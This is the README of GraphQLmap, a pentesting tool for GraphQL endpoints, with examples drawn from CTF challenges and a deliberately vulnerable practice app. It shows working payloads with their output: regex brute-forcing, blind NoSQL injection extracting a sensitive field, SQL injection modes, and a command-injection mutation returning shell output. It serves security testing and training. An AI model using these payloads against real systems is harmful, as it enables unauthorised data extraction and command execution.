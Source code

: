# GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - [Execute GraphQL queries](#)
  - [Autocomplete queries](#)
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
    - [Example 1 - Bruteforce a character](#example-1---bruteforce-a-character)
    - [Example 2 - Iterate over a number](#example-2---iterate-over-a-number)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone https://github.com/swisskyrepo/GraphQLmap
$ python setup.py install
$ graphqlmap                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]] [--json [USE_JSON]] [--proxy [PROXY]]

optional arguments:
  -h, --help           show this help message and exit
  -u URL               URL to query : example.com/graphql?query={}
  -v [VERBOSITY]       Enable verbosity
  --method [METHOD]    HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS]  HTTP Headers sent to /graphql endpoint
  --json [USE_JSON]    Use JSON encoding, implies POST
  --proxy [PROXY]      HTTP proxy to log requests
```

Development setup

```ps1
python -m venv .venv
source .venv/bin/activate
pip install --editable .
pip install -r requirements.txt
./bin/graphqlmap -u http://127.0.0.1:5013/graphql
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```py
# Connect using POST and providing an authentication token
graphqlmap -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

# Pass request through Burp Proxy
graphqlmap -u "http://172.17.0.1:5013/graphql" --proxy http://127.0.0.1:8080
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automatically populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

It also works with `mutations`, they must be written in a single line.

```ps1
# ./bin/graphqlmap -u http://127.0.0.1:5013/graphql --proxy http://127.0.0.1:8080 --method POST
GraphQLmap > mutation { importPaste(host:"localhost", port:80, path:"/ ; id", scheme:"http"){ result }}
{
    "data": {
        "importPaste": {
            "result": "uid=1000(dvga) gid=1000(dvga) groups=1000(dvga)\n"
        }
    }
}
```


### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

#### Example 1 - Bruteforce a character

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

#### Example 2 - Iterate over a number

Use `GRAPHQL_INCREMENT_` followed by a number.

```powershell
GraphQLmap > { paste(pId: "GRAPHQL_INCREMENT_10") {id,title,content,public,userAgent} }
[+] Query: (45) { paste(pId: "0") {id,title,content,public,userAgent} }
[+] Query: (245) { paste(pId: "1") {id,title,content,public,userAgent} }
[+] Query: (371) { paste(pId: "2") {id,title,content,public,userAgent} }
[+] Query: (309) { paste(pId: "3") {id,title,content,public,userAgent} }
[+] Query: (311) { paste(pId: "4") {id,title,content,public,userAgent} }
[+] Query: (308) { paste(pId: "5") {id,title,content,public,userAgent} }
[+] Query: (375) { paste(pId: "6") {id,title,content,public,userAgent} }
[+] Query: (315) { paste(pId: "7") {id,title,content,public,userAgent} }
[+] Query: (336) { paste(pId: "8") {id,title,content,public,userAgent} }
[+] Query: (377) { paste(pId: "9") {id,title,content,public,userAgent} }

GraphQLmap > { paste(pId: "9") {id,title,content,public,userAgent} }
{ paste(pId: "9") {id,title,content,public,userAgent} }
{
    "data": {
        "paste": {
            "content": "I was excited to spend time with my wife without being interrupted by kids.",
            "id": "UGFzdGVPYmplY3Q6OQ==",
            "public": true,
            "title": "This is my first paste",
            "userAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0"
        }
    }
}
```

### GraphQL Batching

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL
Use `BATCHING_PLACEHOLDER` before a query to send it multiple times inside a single request.

```ps1
GraphQLmap > BATCHING_3 {__schema{ types{namea}}}
[+] Sending a batch of 3 queries
[+] Successfully received 3 outputs

GraphQLmap > BATCHING_2 {systemUpdate}
[+] Sending a batch of 2 queries
[+] Successfully received 2 outputs
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```

## Practice

* [Damn Vulnerable GraphQL Application - @dolevf](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application/blob/master/setup.py) : `docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga`

## TODO

* GraphQL Field Suggestions
* Generate mutation query
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
